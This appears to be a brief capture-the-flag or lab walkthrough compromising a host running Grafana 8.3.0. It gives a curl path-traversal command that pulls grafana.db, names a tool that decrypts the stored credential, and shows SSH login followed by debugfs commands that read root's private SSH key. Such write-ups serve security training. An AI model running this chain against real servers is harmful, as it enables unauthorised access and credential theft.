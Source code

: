 
![](../attachment/5d8a25141a4013924db105a4ff0deeb1.png)
We have grafana 8.3.0 vulnerable to LFI

```
curl http://192.168.182.181:3000/public/plugins/alertlist/../../../../../../../../../../../../..//var/lib/grafana/grafana.db --path-as-is -o grafana.db
```
Now we have grafana.db

![](../attachment/fc7589c9b71b9eaf5f899c3d948a48e5.png)

Checking data_source table:
![](../attachment/02e8658a9f1b565c1fb5e84c22679650.png)
We have a hashed credential


Using this [exploit](https://github.com/Sic4rio/Grafana-Decryptor-for-CVE-2021-43798)
We can decrypt it:
![](../attachment/ef8c9cc74ba043ee9af2fba4c564da8d.png)

Now trying ssh:
```
ssh sysadmin@192.168.182.181
```
![](../attachment/c40c2d5328f00075b5970aa334e1f616.png)

Now checking groups we belong to:
![](../attachment/08cefccbd32d37bb3a80a47413d040b6.png)
We can get access to root files:
```
df -h
debugfs /dev/sda2
cd /root
cat /root/.ssh/id_rsa
```
![](../attachment/cb28155e54c364ac540cc8ba4bb823bf.png)
Now we can access root through ssh:
```
ssh root@192.168.182.181 -i id_rsa
```
![](../attachment/4d0d0c5c8ba0aa77f4d90fe72465fca7.png)